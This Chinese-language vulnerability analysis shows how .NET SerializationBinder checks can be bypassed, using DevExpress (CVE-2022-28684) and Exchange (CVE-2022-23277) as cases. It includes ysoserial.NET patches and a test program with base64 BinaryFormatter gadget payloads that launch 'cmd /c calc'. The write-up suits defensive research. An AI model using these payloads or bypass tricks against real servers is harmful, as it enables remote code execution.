


# 绕过 .NET 的 Serialization Binder

### .NET 程序集的命名



对于`.NET` 来说，内部的类型解析器/绑定器允许一些预想不到的字符：

1. 空格符（比如：U+0009, U+000A, U+000D, U+0020）在`tokens` 中会被忽略掉，甚至更长的空格符也会被忽略
2. 类型名称可以以`.`开头，比如`.System.Data.DataSet`
3. 程序集的名字不区分大小写，比如：`MsCorliB` 和`mscorlib`
4. 程序集属性的值可以使用双引号括起来，甚至是不完整的引用，比如：`PublicKeyToken="b77a5c561934e089"`和`PublicKeyToken='b77a5c561934e089`
5. `.Net` 框架的程序集通常只需要`PublicKey/PublicKeyToken` 的属性即可，比如：\``System.Data.DataSet, System.Data, PublicKey=00000000000000000400000000000000` or `System.Data.DataSet, System.Data, PublicKeyToken=b77a5c561934e089``
6. 程序集的属性的顺序可以是任意的，比如`System.Data, PublicKeyToken=b77a5c561934e089, Culture=neutral, Version=4.0.0.0`
7. 任意额外的程序集属性是被允许的，比如：`System.Data, Foo=bar, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089, Baz=quu`
8. 程序集属性的值几乎可以包含任意字符，支持转义字符：`\"`, `\'`, `\,`, `\/`, `\=`, `\\`, `\n`, `\r`, and `\t`\`


所以对于基于黑白名单的过滤来说，任何不被允许的类型都会引起异常


### `SerializationBinder` 的用法
首先我们需要了解一些`SerializationBinder` 这个类

```csharp
namespace System.Runtime.Serialization
{
	// Token: 0x0200001E RID: 30
	public abstract class SerializationBinder
	{
		// Token: 0x06000120 RID: 288 RVA: 0x0000A3C2 File Offset: 0x00008BC2
		[NullableContext(2)]
		public virtual void BindToName([Nullable(1)] Type serializedType, out string assemblyName, out string typeName)
		{
			assemblyName = null;
			typeName = null;
		}

		// Token: 0x06000121 RID: 289
		[NullableContext(1)]
		[return: Nullable(2)]
		public abstract Type BindToType(string assemblyName, string typeName);
	}
}
```
在反序列化的时候，会调用`BindToType`，其中`assemblyName` 和`typeName` 从序列化对象中获取，在序列化的时候，则调用`BindToName`，允许控制 `assemblyName` 和`typeName` 写入序列化对象。

需要注意的是，对于反序列化的`BindToType`，它是一个抽象函数，所以在反序列化的时候需要由各自的`Formatter`去实现它，所以这里就有可能造成漏洞。


下面列举了几个序列化类的`SerializationBinder` 函数

```Plain Text
System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.ObjectReader.Bind(string, string)
System.Runtime.Serialization.Formatters.Soap.SoapFormatter.ObjectReader.Bind(string, string)
System.Runtime.Serialization.XmlObjectSerializerReadContextComplex.ResolveDataContractTypeInSharedTypeMode(string, string, out Assembly)
```
我们先看`BinaryFormatter` 所使用的 `System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.ObjectReader.Bind(string, string)`  内部的实现：

```csharp
internal Type Bind(string assemblyString, string typeString)
{
	Type type = null;
	if (this._binder != null)
	{
		type = this._binder.BindToType(assemblyString, typeString);
	}
	if (type == null)
	{
		type = this.FastBindToType(assemblyString, typeString);
	}
	return type;
}
```
可以看到如果`SerializationBinder.BindToType`返回为`null`，则会调用`FastBindToType`

```csharp
internal Type FastBindToType(string assemblyName, string typeName)
{
	Type type = null;
	ObjectReader.TypeNAssembly typeNAssembly = (ObjectReader.TypeNAssembly)this._typeCache.GetCachedValue(typeName);
	if (typeNAssembly == null || typeNAssembly.AssemblyName != assemblyName)
	{
		if (assemblyName == null)
		{
			return null;
		}
		Assembly assembly = null;
		AssemblyName assemblyName2 = null;
		try
		{
			assemblyName2 = new AssemblyName(assemblyName);
		}
		catch
		{
			return null;
		}
		if (this._isSimpleAssembly)
		{
			assembly = ObjectReader.ResolveSimpleAssemblyName(assemblyName2);
		}
		else
		{
			try
			{
				assembly = Assembly.Load(assemblyName2);
			}
			catch
			{
			}
		}
		if (assembly == null)
		{
			return null;
		}
		if (this._isSimpleAssembly)
		{
			ObjectReader.GetSimplyNamedTypeFromAssembly(assembly, typeName, ref type);
		}
		else
		{
			type = FormatterServices.GetTypeFromAssembly(assembly, typeName);
		}
		if (type == null)
		{
			return null;
		}
		ObjectReader.CheckTypeForwardedTo(assembly, type.Assembly, type);
		typeNAssembly = new ObjectReader.TypeNAssembly();
		typeNAssembly.Type = type;
		typeNAssembly.AssemblyName = assemblyName;
		this._typeCache.SetCachedValue(typeNAssembly);
	}
	return typeNAssembly.Type;
}
```
对于`BinaryFormatter`来说，它默认使用`FormatterAssemblyStyle.Simple`，也就是`this.``_isSimpleAssembly=True` 。首先会使用`ObjectReader.ResolveSimpleAssemblyName(assemblyName2)`去获取一个`assembly`对象，这个必须成功，否则`FastBindToType`函数直接返回`null`。然后把获取到的`assembly`对象传递给`ObjectReader.GetSimplyNamedTypeFromAssembly` 来获取对应的类型。

```csharp
private static void GetSimplyNamedTypeFromAssembly(Assembly assm, string typeName, ref Type type)
{
	try
	{
		type = FormatterServices.GetTypeFromAssembly(assm, typeName);
	}
	catch (TypeLoadException)
	{
	}
	catch (FileNotFoundException)
	{
	}
	catch (FileLoadException)
	{
	}
	catch (BadImageFormatException)
	{
	}
	if (type == null)
	{
		type = Type.GetType(typeName, new Func<AssemblyName, Assembly>(ObjectReader.ResolveSimpleAssemblyName), new Func<Assembly, string, bool, Type>(new ObjectReader.TopLevelAssemblyTypeResolver(assm).ResolveType), false);
	}
}
```
`GetSimplyNamedTypeFromAssembly`首先调用`FormatterServices.GetTypeFromAssembly` ，其内部实际调用的是`Assembly.GetType()`来获取类型。当这个方法获取类型失败之后，则会调用`Type.GetType(typeName, new Func<AssemblyName, Assembly>(ObjectReader.ResolveSimpleAssemblyName), new Func<Assembly, string, bool, Type>(new ObjectReader.TopLevelAssemblyTypeResolver(assm).ResolveType), false)` ，并且类型名称作为第一个参数。如果当类型名称是一个`AQN` 名字并且成功获得对应类型的时候则会直接返回对应的`AQN`类型，不管后面提供的`assm`参数了。


这意味着除非`SerializationBinder.BindToType`实现和`ObjectReader.FastBindToType`一样的算法，否则当自定义的`Binder`失败的时候则会去执行默认的`FastBindToType` 。同时，如果自定义的`Binder`解析失败的时候没有抛出异常而是返回`null` ，则还会是继续执行默认的`FastBindToType`


### 案例1 `SAFESERIALIZATIONBINDER` IN DEVEXPRESS (CVE-2022-28684)
漏洞出现在`DevExpress.Data.Internal.SafeSerializationBinder` ，在反序列化的时候会调用内部类`DXSerializationBinder.BindToType` 函数

```csharp
public sealed override Type BindToType(string assemblyName, string typeName)
{
	if (this.isNetDataContractsSerializationBinder && assemblyName == "0")
	{
		assemblyName = "mscorlib";
	}
	SafeSerializationBinder.Ensure(assemblyName, typeName);
	if (SafeSerializationBinder.EnsureAssemblyQualifiedTypeName(ref assemblyName, ref typeName))
	{
		SafeSerializationBinder.Ensure(assemblyName, typeName);
	}
	if (typeName == "DevExpress.XtraPivotGrid.PivotGridFieldFilterValues")
	{
		assemblyName = "DevExpress.PivotGrid.v21.2.Core";
	}
	typeName = DXAssemblyResolverEx.GetValidTypeName(typeName);
	assemblyName = DXAssemblyResolverEx.GetValidAssemblyName(assemblyName);
	Assembly assembly = SafeSerializationBinder.DXSerializationBinder.GetAssembly(assemblyName);
	if (!(assembly != null))
	{
		return null;
	}
	return assembly.GetType(typeName, false);
}
```


可以看到首先会调用`Ensure`函数来验证程序集的名字以及类型的名字是否正确，然后再调用`EnsureAssemblyQualifiedTypeName` 来验证完全限定名，如果验证通过再次传给`Ensure`来验证。

对于`Ensure`函数：

```csharp
public static void Ensure(string assemblyName, string typeName)
{
	if (SafeSerializationBinder.UnsafeTypes.Match(assemblyName, typeName))
	{
		XtraSerializationSecurityTrace.UnsafeType(assemblyName, typeName);
		return;
	}
	if (SafeSerializationBinder.KnownTypes.Match(assemblyName, typeName))
	{
		XtraSerializationSecurityTrace.TrustedType(assemblyName, typeName);
		return;
	}
	XtraSerializationSecurityTrace.NonTrustedType(assemblyName, typeName);
}
```
会查找是否在`UnsafeTypes`里面，是否是`KnownTypes`，条件都满足才会通过。这里我们把`assemblyName`设置为`mscrlib` ，`typeName`设置为`AQN` 来绕过。因为它只检测`Full Name`而不是`AQN` 。

```csharp
diff --git a/ysoserial/Generators/DataSetGenerator.cs b/ysoserial/Generators/DataSetGenerator.cs
index ae4beb8..1755e62 100644
--- a/ysoserial/Generators/DataSetGenerator.cs
+++ b/ysoserial/Generators/DataSetGenerator.cs
@@ -62,7 +62,8 @@ namespace ysoserial.Generators

         public void GetObjectData(SerializationInfo info, StreamingContext context)
         {
-            info.SetType(typeof(System.Data.DataSet));
+            info.AssemblyName = "mscorlib";
+            info.FullTypeName = typeof(System.Data.DataSet).AssemblyQualifiedName;
             info.AddValue("DataSet.RemotingFormat", System.Data.SerializationFormat.Binary);
             info.AddValue("DataSet.DataSetName", "");
             info.AddValue("DataSet.Namespace", "");
```
接下来到`EnsureAssemblyQualifiedTypeName` 函数

```csharp
// DevExpress.Data.Internal.SafeSerializationBinder
// Token: 0x06005608 RID: 22024 RVA: 0x000CA320 File Offset: 0x000C8520
internal static bool EnsureAssemblyQualifiedTypeName(ref string assemblyName, ref string typeName)
{
	string a = assemblyName;
	int num = typeName.Length - 1;
	bool flag = false;
	bool flag2 = false;
	int num2;
	while ((num2 = typeName.LastIndexOf(',', num)) > 0)
	{
		flag2 = true;
		int num3 = num2 + 1;
		while (char.IsWhiteSpace(typeName[num3]))
		{
			num3++;
		}
		if (flag)
		{
			assemblyName = typeName.Substring(num3);
			typeName = typeName.Substring(0, num2);
			return a != assemblyName;
		}
		if (typeName.IndexOf("version=", num3, num - num3, StringComparison.OrdinalIgnoreCase) == num3)
		{
			int num4 = typeName.LastIndexOf(']', typeName.Length - 1);
			if (num4 > num2)
			{
				return false;
			}
			flag = true;
		}
		num = num2 - 1;
	}
	if (!flag2)
	{
		return false;
	}
	int num5 = typeName.LastIndexOf(']', typeName.Length - 1);
	num2 = typeName.LastIndexOf(',', typeName.Length - 1);
	if (num5 > num2)
	{
		return false;
	}
	int num6 = num2 + 1;
	while (char.IsWhiteSpace(typeName[num6]))
	{
		num6++;
	}
	assemblyName = typeName.Substring(num6);
	typeName = typeName.Substring(0, num2);
	return a != assemblyName;
}

```


对于这个函数，我们只要`typeName `最后添加一个`, x=]`即可绕过。

```csharp
diff --git a/ysoserial/Generators/DataSetGenerator.cs b/ysoserial/Generators/DataSetGenerator.cs
index ae4beb8..1755e62 100644
--- a/ysoserial/Generators/DataSetGenerator.cs
+++ b/ysoserial/Generators/DataSetGenerator.cs
@@ -62,7 +62,8 @@ namespace ysoserial.Generators

         public void GetObjectData(SerializationInfo info, StreamingContext context)
         {
-            info.SetType(typeof(System.Data.DataSet));
+            info.AssemblyName = "mscorlib";
+            info.FullTypeName = typeof(System.Data.DataSet).AssemblyQualifiedName + ", x=]";
             info.AddValue("DataSet.RemotingFormat", System.Data.SerializationFormat.Binary);
             info.AddValue("DataSet.DataSetName", "");
             info.AddValue("DataSet.Namespace", "");
```


### 案例2 `CHAINEDSERIALIZATIONBINDER` IN EXCHANGE SERVER (CVE-2022-23277)


问题还是出现在`ChainedSerializationBinder` 这个类中，在`Microsoft.Exchange.Diagnostics.ExchangeBinaryFormatterFactory.CreateBinaryFormatter(DeserializeLocation, bool, string[], string[])` 函数中进行调用

```csharp
public static BinaryFormatter CreateBinaryFormatter(DeserializeLocation usageLocation, bool strictMode = false, string[] allowList = null, string[] allowedGenerics = null)
{
	return new BinaryFormatter
	{
		Binder = new ChainedSerializationBinder(usageLocation, strictMode, allowList, allowedGenerics)
	};
}
```
在`ChainedSerializationBinder`类内部，`BindToType`函数在反序列化的时候进行调用

```csharp
public override Type BindToType(string assemblyName, string typeName)
{
	if (this.serializationOnly)
	{
		throw new InvalidOperationException("ChainedSerializationBinder was created for serialization only.  This instance cannot be used for deserialization.");
	}
	Type type = this.InternalBindToType(assemblyName, typeName);
	if (type != null)
	{
		this.ValidateTypeToDeserialize(type);
	}
	return type;
}
```
跟入`InternalBindToType`

```csharp
protected virtual Type InternalBindToType(string assemblyName, string typeName)
{
    return this.LoadType(assemblyName, typeName);
}
```
在`LoadType`内部

```csharp
protected Type LoadType(string assemblyName, string typeName)
{
	Type type = null;
	try
	{
		type = Type.GetType(string.Format("{0}, {1}", typeName, assemblyName));
	}
	catch (TypeLoadException)
	{
	}
	catch (FileLoadException)
	{
	}
	if (type == null)
	{
		string shortName = assemblyName.Split(new char[]
		{
			','
		})[0];
		try
		{
			type = Type.GetType(string.Format("{0}, {1}", typeName, shortName));
		}
		catch (TypeLoadException)
		{
		}
		catch (FileLoadException)
		{
		}
		if (type == null)
		{
			Assembly[] assemblies = AppDomain.CurrentDomain.GetAssemblies();
			IEnumerable<Assembly> source = from x in assemblies
			where shortName == x.FullName.Split(new char[]
			{
				','
			})[0]
			select x;
			Assembly assembly = source.Any<Assembly>() ? source.First<Assembly>() : null;
			if (assembly != null)
			{
				type = assembly.GetType(typeName);
			}
			else
			{
				foreach (Assembly assembly2 in assemblies)
				{
					try
					{
						type = assembly2.GetType(typeName);
						if (type != null)
						{
							break;
						}
					}
					catch
					{
					}
				}
			}
		}
	}
	return type;
}
```
通过组合`typeName`和`assemblyName` 传递给`Type.GetType`来获取类型，如果失败则把`typeName`传递给`assembly.GetType`来获取类型。如果都失败，则返回`null` 。那么此时则不会调用`ValidateTypeToDeserialize()`函数来进行进一步的验证，所以`BindToType`返回`null`。


当`ChainedSerializationBinder.BindToType()`方法返回到 `ObjectReader.Bind()` 方法时，将调用回退方法`ObjectReader.FastBindToType()` 来解析类型。现在，由于`ChainedSerializationBinder.BindToType()`使用`ObjectReader.FastBindToType()`不同的算法来解析类型，因此可以通过上述技巧绕过`ChainedSerializationBinder`的验证。


这里使用`ysoserial.NET` 的`DataSetTypeSpoof` 即可绕过




测试代码

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using DevExpress.Data.Internal;
using System.Runtime.Serialization.Formatters.Binary;
using Microsoft.Exchange.Diagnostics;
using System.Runtime.Serialization;
using Microsoft.Exchange.Data;
using Microsoft.Exchange.Data.Serialization;
using Microsoft.Exchange.Diagnostics.Components.Data;
using System.IO;

namespace BypassSerializationBinder
{
    public class Program
    {
		private static readonly string[] allowedTypes = new string[]
		{
			"Microsoft.Exchange.Cluster.ActiveManagerServer.AmClusterNodeNetworkStatus",
			"Microsoft.Exchange.Cluster.Replay.AmBcsSingleCopyValidationException",
			"Microsoft.Exchange.Cluster.Replay.AmDbActionWrapperException",
                        ...
                        ...
			"System.Version",
			"System.Xml.XmlException"
		};

		private static readonly string[] allowedGenerics = new string[]
		{
			"Microsoft.Exchange.Collections.ReadOnlyCollection`1",
			"Microsoft.Exchange.Data.DagNetMultiValuedProperty`1",
			"Microsoft.Exchange.Data.Directory.ADMultiValuedProperty`1",
			"Microsoft.Exchange.Data.Directory.ConfigurationXMLHelper+ConfigXMLCache`1",
			"Microsoft.Exchange.Data.MultiValuedProperty`1",
			"Microsoft.Exchange.Data.QueueViewer.QueueViewerPropertyDefinition`1",
			"Microsoft.Exchange.Data.StateDurationData`1",
			"Microsoft.Exchange.Data.Unlimited`1",
			"Microsoft.Exchange.MailboxReplicationService.Report+ListWithToString`1",
			"System.Collections.Generic.Dictionary`2",
			"System.Collections.Generic.EnumEqualityComparer`1",
			"System.Collections.Generic.GenericComparer`1",
			"System.Collections.Generic.GenericEqualityComparer`1",
			"System.Collections.Generic.HashSet`1",
			"System.Collections.Generic.KeyValuePair`2",
			"System.Collections.Generic.LinkedList`1",
			"System.Collections.Generic.List`1",
			"System.Collections.Generic.ObjectEqualityComparer`1",
			"System.Collections.Generic.SortedDictionary`2",
			"System.Collections.Generic.SortedDictionary`2+KeyValuePairComparer",
			"System.Collections.Generic.TreeSet`1",
			"System.Collections.ObjectModel.Collection`1",
			"System.Lazy`1",
			"System.Lazy`1+Boxed"
		};

		public static byte[] block = Convert.FromBase64String("AAEAAAD/////AQAAAAAAAAAMAgAAAE5TeXN0ZW0uRGF0YSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAABNTeXN0ZW0uRGF0YS5EYXRhU2V0CgAAABZEYXRhU2V0LlJlbW90aW5nRm9ybWF0E0RhdGFTZXQuRGF0YVNldE5hbWURRGF0YVNldC5OYW1lc3BhY2UORGF0YVNldC5QcmVmaXgVRGF0YVNldC5DYXNlU2Vuc2l0aXZlEkRhdGFTZXQuTG9jYWxlTENJRBpEYXRhU2V0LkVuZm9yY2VDb25zdHJhaW50cxpEYXRhU2V0LkV4dGVuZGVkUHJvcGVydGllcxREYXRhU2V0LlRhYmxlcy5Db3VudBBEYXRhU2V0LlRhYmxlc18wBAEBAQAAAAIABx9TeXN0ZW0uRGF0YS5TZXJpYWxpemF0aW9uRm9ybWF0AgAAAAEIAQgCAgAAAAX9////H1N5c3RlbS5EYXRhLlNlcmlhbGl6YXRpb25Gb3JtYXQBAAAAB3ZhbHVlX18ACAIAAAABAAAABgQAAAAACQQAAAAJBAAAAAAJBAAAAAoBAAAACQUAAAAPBQAAAJEDAAACAAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAAswU8P3htbCB2ZXJzaW9uPSIxLjAiIGVuY29kaW5nPSJ1dGYtMTYiPz4NCjxPYmplY3REYXRhUHJvdmlkZXIgTWV0aG9kTmFtZT0iU3RhcnQiIElzSW5pdGlhbExvYWRFbmFibGVkPSJGYWxzZSIgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiIgeG1sbnM6c2Q9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PVN5c3RlbSIgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiPg0KICA8T2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KICAgIDxzZDpQcm9jZXNzPg0KICAgICAgPHNkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgICAgICA8c2Q6UHJvY2Vzc1N0YXJ0SW5mbyBBcmd1bWVudHM9Ii9jIGNhbGMiIFN0YW5kYXJkRXJyb3JFbmNvZGluZz0ie3g6TnVsbH0iIFN0YW5kYXJkT3V0cHV0RW5jb2Rpbmc9Int4Ok51bGx9IiBVc2VyTmFtZT0iIiBQYXNzd29yZD0ie3g6TnVsbH0iIERvbWFpbj0iIiBMb2FkVXNlclByb2ZpbGU9IkZhbHNlIiBGaWxlTmFtZT0iY21kIiAvPg0KICAgICAgPC9zZDpQcm9jZXNzLlN0YXJ0SW5mbz4NCiAgICA8L3NkOlByb2Nlc3M+DQogIDwvT2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KPC9PYmplY3REYXRhUHJvdmlkZXI+Cws=");

		public static byte[] bypass = Convert.FromBase64String("AAEAAAD/////AQAAAAAAAAAMAgAAAAhtc2NvcmxpYgwDAAAATlN5c3RlbS5EYXRhLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQUBAAAAY1N5c3RlbS5EYXRhLkRhdGFTZXQsIFN5c3RlbS5EYXRhLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoAAAAWRGF0YVNldC5SZW1vdGluZ0Zvcm1hdBNEYXRhU2V0LkRhdGFTZXROYW1lEURhdGFTZXQuTmFtZXNwYWNlDkRhdGFTZXQuUHJlZml4FURhdGFTZXQuQ2FzZVNlbnNpdGl2ZRJEYXRhU2V0LkxvY2FsZUxDSUQaRGF0YVNldC5FbmZvcmNlQ29uc3RyYWludHMaRGF0YVNldC5FeHRlbmRlZFByb3BlcnRpZXMURGF0YVNldC5UYWJsZXMuQ291bnQQRGF0YVNldC5UYWJsZXNfMAQBAQEAAAACAAcfU3lzdGVtLkRhdGEuU2VyaWFsaXphdGlvbkZvcm1hdAMAAAABCAEIAgIAAAAF/P///x9TeXN0ZW0uRGF0YS5TZXJpYWxpemF0aW9uRm9ybWF0AQAAAAd2YWx1ZV9fAAgDAAAAAQAAAAYFAAAAAAkFAAAACQUAAAAACQQAAAAKAQAAAAkGAAAADwYAAACRAwAAAgABAAAA/////wEAAAAAAAAADAIAAABeTWljcm9zb2Z0LlBvd2VyU2hlbGwuRWRpdG9yLCBWZXJzaW9uPTMuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNQUBAAAAQk1pY3Jvc29mdC5WaXN1YWxTdHVkaW8uVGV4dC5Gb3JtYXR0aW5nLlRleHRGb3JtYXR0aW5nUnVuUHJvcGVydGllcwEAAAAPRm9yZWdyb3VuZEJydXNoAQIAAAAGAwAAALMFPD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0idXRmLTE2Ij8+DQo8T2JqZWN0RGF0YVByb3ZpZGVyIE1ldGhvZE5hbWU9IlN0YXJ0IiBJc0luaXRpYWxMb2FkRW5hYmxlZD0iRmFsc2UiIHhtbG5zPSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbC9wcmVzZW50YXRpb24iIHhtbG5zOnNkPSJjbHItbmFtZXNwYWNlOlN5c3RlbS5EaWFnbm9zdGljczthc3NlbWJseT1TeXN0ZW0iIHhtbG5zOng9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sIj4NCiAgPE9iamVjdERhdGFQcm92aWRlci5PYmplY3RJbnN0YW5jZT4NCiAgICA8c2Q6UHJvY2Vzcz4NCiAgICAgIDxzZDpQcm9jZXNzLlN0YXJ0SW5mbz4NCiAgICAgICAgPHNkOlByb2Nlc3NTdGFydEluZm8gQXJndW1lbnRzPSIvYyBjYWxjIiBTdGFuZGFyZEVycm9yRW5jb2Rpbmc9Int4Ok51bGx9IiBTdGFuZGFyZE91dHB1dEVuY29kaW5nPSJ7eDpOdWxsfSIgVXNlck5hbWU9IiIgUGFzc3dvcmQ9Int4Ok51bGx9IiBEb21haW49IiIgTG9hZFVzZXJQcm9maWxlPSJGYWxzZSIgRmlsZU5hbWU9ImNtZCIgLz4NCiAgICAgIDwvc2Q6UHJvY2Vzcy5TdGFydEluZm8+DQogICAgPC9zZDpQcm9jZXNzPg0KICA8L09iamVjdERhdGFQcm92aWRlci5PYmplY3RJbnN0YW5jZT4NCjwvT2JqZWN0RGF0YVByb3ZpZGVyPgsL");
		static void Main(string[] args)
        {
            using(MemoryStream stream = new MemoryStream(block))
            {
				object obj = null;
                try
                {
					bool strictModeStatus = Serialization.GetStrictModeStatus(DeserializeLocation.SerializationTypeConverter);
					obj = ExchangeBinaryFormatterFactory.CreateBinaryFormatter(DeserializeLocation.SerializationTypeConverter, strictModeStatus,
						allowedTypes, allowedGenerics).Deserialize(stream);
				}
				catch(Exception ex)
                {
					Console.WriteLine(ex.Message);
                }

            }

			Console.WriteLine("Bypass block");

			using (MemoryStream stream = new MemoryStream(bypass))
			{
				object obj = null;
				try
				{
					bool strictModeStatus = Serialization.GetStrictModeStatus(DeserializeLocation.SerializationTypeConverter);
					obj = ExchangeBinaryFormatterFactory.CreateBinaryFormatter(DeserializeLocation.SerializationTypeConverter, strictModeStatus,
						allowedTypes, allowedGenerics).Deserialize(stream);
				}
				catch (Exception ex)
				{
					Console.WriteLine(ex.Message);
				}

			}
		}
    }
}

```


### 参考链接
[https://codewhitesec.blogspot.com/2022/06/bypassing-dotnet-serialization-binders.html](https://codewhitesec.blogspot.com/2022/06/bypassing-dotnet-serialization-binders.html)